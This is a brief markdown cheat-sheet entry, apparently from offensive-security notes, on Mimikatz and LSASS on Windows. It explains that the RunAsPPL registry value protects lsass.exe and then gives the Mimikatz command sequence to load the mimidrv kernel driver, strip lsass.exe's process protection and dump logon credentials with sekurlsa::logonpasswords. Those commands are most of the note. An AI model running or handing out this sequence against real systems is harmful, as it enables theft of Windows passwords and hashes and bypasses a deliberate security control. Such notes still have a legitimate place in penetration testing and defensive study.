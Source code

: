 #mimikatz 
[LSASS](Credentials#LSASS)
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentials.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```